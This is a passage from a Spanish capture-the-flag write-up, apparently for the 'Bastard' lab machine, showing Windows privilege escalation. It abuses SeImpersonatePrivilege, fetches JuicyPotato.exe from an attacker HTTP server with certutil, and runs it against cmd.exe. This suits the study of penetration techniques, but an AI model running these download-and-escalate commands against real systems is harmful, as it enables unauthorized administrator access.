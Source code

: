 Estamos dentro de la maquina.

## Escalar privilegios.

El usuario ``iusr`` tiene el privilegio ``SeImpersonatePrivilege`` el cual por medio de la tool ``JuicyPotato.exe`` podemos ejecutar comando como administrador.

````bash
C:\inetpub\drupal-7.54>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
`````

Creamos nuevamente un servido con python y subimos el binario con certutil.

````bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [23/Nov/2022 22:59:47] "GET /JuicyPotato.exe HTTP/1.1" 200 -
10.10.10.9 - - [23/Nov/2022 22:59:48] "GET /JuicyPotato.exe HTTP/1.1" 200 -
========================================================================================
C:\Windows\Temp\priv>certutil -urlcache -f -split http://10.10.14.6:8000/JuicyPotato.exe
certutil -urlcache -f -split http://10.10.14.6:8000/JuicyPotato.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
`````

Ejecutamos el JuicyPotato.exe con la siguente sintaxis.

````bash
C:\Windows\Temp\priv>JuicyPotato.exe -l 1337 -t * -p c:\windows\system32\cmd.exe -a "/c whoami"
JuicyPotato.exe -l 1337 -t * -p c:\windows\system32\cmd.exe -a "/c whoami"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
`````

El error que se muestra en pantalla ``COM -> recv failed with error: 10038`` se debe al CLSID, si buscamos en internet encontramos un github con CLSID de varias versiones de windows, en este caso buscamos el CLSID de windows server 2008.

![imagen-de-prueba](/assets/img/bastard/Captura%20de%20pantalla%20(156).png)
_Image Bastard_

![imagen-de-prueba](/assets/img/bastard/Captura%20de%20pantalla%20(157).png)
_Image Bastard_
